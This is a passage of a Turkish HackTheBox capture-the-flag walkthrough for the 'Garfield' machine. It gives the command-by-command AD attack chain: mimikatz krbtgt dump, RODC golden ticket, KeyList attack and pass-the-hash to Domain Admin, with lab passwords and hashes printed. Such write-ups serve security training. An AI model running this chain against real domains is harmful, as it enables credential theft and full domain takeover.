

Daha önce S4U2Proxy ile aldığımız Administrator@cifs/RODC01 biletini KRB5CCNAME ortam değişkenine set edip, impacket smbclient.py ile pass-the-ticket yöntemiyle RODC01'e Administrator olarak bağlanıyoruz.

24- mimikatz ve Rubeus'u RODC01'e Yükleme

use C$
cd Windows/Temp
put /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
put /home/kali/impacket/Rubeus.exe
ls


RODC01'de Administrator context'inde dosya yazabildiğimizi doğruluyoruz. RODC krbtgt hash'ini dump etmek (mimikatz) ve Golden Ticket üretmek (Rubeus) için ihtiyacımız olan araçlar yüklü mü ona bakıyoruz. Eğer yüklü değilse hedefe yüklüyoruz.

25- psexec ile RODC01'de SYSTEM Shell Alma

python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass GARFIELD.HTB/Administrator@RODC01.garfield.htb


smbclient.py dosya transferi sağladığı için, mimikatz'ı çalıştırabilmek üzere psexec.py ile aynı kerberos bileti kullanılarak RODC01 üzerinde tam interaktif bir SYSTEM shell elde ediyoruz.

26- mimikatz ile RODC krbtgt Hash Dump

cd \Windows\Temp

mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245"



RODC01'de SYSTEM yetkisiyle, RODC'ye özel krbtgt_8245 hesabının kimlik bilgilerini LSA'dan dump ediyoruz. Çıktının Kerberos-Newer-Keys bölümünde asıl ihtiyacımız olan değer çıkıyor;
aes256_hmac : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
exit diyip çıkıyoruz.

27- msDS-RevealOnDemandGroup Manipülasyonu 

bloodyAD --host DC01.garfield.htb -u 'l.wilson_adm' -p 'Grrard123' set object 'RODC01$' msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb' -v 'CN=Administrator,CN=Users,DC=garfield,DC=htb'

bloodyAD --host DC01.garfield.htb -u 'l.wilson_adm' -p 'Grrard123' set object 'RODC01$' msDS-NeverRevealGroup


RODC01'in Administrator hesabının credential'ını cache'lemesine (reveal 
etmesine) izin veriyoruz. Bu adım olmadan, sonraki KeyList Attack denemesi 
KDC_ERR_TGT_REVOKED hatası verir — RODC, yetkili olmadığı bir hesap için 
DC'den key list talep edemez.

28- RODC Golden Ticket Oluşturma (Rubeus)

Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:administrator.kirbi /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /sdelay:3600



krbtgt_8245'in AES256 anahtarıyla, Administrator (RID: 500) için sahte bir TGT (Golden Ticket) forge ediyoruz. /rodcNumber:8245 parametresi, biletin bu RODC'ye özel krbtgt tarafından imzalandığını belirtiyor.

29- asktgs ile Gerçek DC'den KeyList Talebi 

Rubeus.exe asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /ticket:administrator_2026_09_26_01_29_56_Administrator_to_krbtgt@GARFIELD.HTB.kirbi /nowrap



RODC imzalı Golden Ticket'ı kullanarak, gerçek DC01'e /KeyList parametresiyle bir TGS talebi gönderiyoruz. Bu teknik; DC01'in bilete güvenip yanıt olarak kullanıcının gerçek anahtar meteryalini sızdırmasından faydalanıyor.
Administrator'ın gerçek NTLM hash'i elde edildi -->  EE238F6DEBC752010428F20875B092D5

30- Pass-the-Hash ile Domain Admin Erişimi

evil-winrm -i DC01.garfield.htb -u Administrator -H EE238F6DEBC752010428F20875B092D5

whoami
garfield\administrator


Elde ettiğimiz gerçek NTLM hash'iyle, gerçek DC01'e doğrudan Administrator olarak bağlanıyoruz.

31- root.txt Flag

type C:\Users\Administrator\Desktop\root.txt

makineyi düşürüyoruz!

